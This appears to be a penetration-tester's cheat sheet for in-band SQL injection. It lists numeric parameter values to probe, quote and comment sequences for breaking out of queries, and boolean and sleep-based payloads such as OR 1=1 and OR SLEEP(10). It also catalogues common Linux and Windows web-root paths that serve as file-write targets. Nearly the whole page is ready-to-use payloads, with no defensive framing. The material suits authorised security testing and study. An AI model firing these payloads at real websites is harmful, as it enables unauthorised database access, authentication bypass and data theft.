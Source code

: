 # In-Band SQL Query List

#sql-injection

## Change numeric value of parameter ID

Before adding to the prefix next to the parameter value. Try to change the numeric value from the list below:

```
id=0
id=-1
id=9999.99
```

## Boundaries

### Prefix SQL Query List

```
<whitespace>
'
"
\
')
")
```

### Suffix SQL Query List

```
--
#
/*
--<whitespace>
-- -
-- //
AND ('abc'='abc
```

## SQL Payloads

### Boolean-based Payloads

#### Generic SQL

```
OR 1=1
OR '1'='1'
OR 1=2
OR 1=1 IN (SELECT @@VERSION)
OR SLEEP(10)
AND 1=1
AND '1'='1'
AND 1=2
AND 1=1 IN (SELECT @@VERSION)
AND SLEEP(10)
```

## Common Web Root Directories

### Linux

```
/var/www/html/
/var/www/
/var/www/htdocs/
/var/www/sites/
/var/www/public/
/var/www/public_html/
/var/www/html/default/
/var/apache2/htdocs/
/var/www/nginx-default/
/usr/local/apache2/htdocs/
/usr/local/www/data/
/srv/www/
/srv/www/html/
/srv/www/htdocs/
/srv/www/sites/
/home/www/
/home/httpd/
/home/$USER/public_html/
/home/$USER/www/
```

### Windows

```
c:\inetpub\wwwroot\
c:\xampp\htdocs\
c:\wamp\www
```

## References

- [PentestLab: SQL Injection Authentication Bypass Cheat Sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

- [Seclists: Linux Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)

- [Seclists: Windows Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

- [Sjoerd Langkemper: Finding common files in the webroot](https://www.sjoerdlangkemper.nl/2018/05/23/creating-a-dirsearch-list/)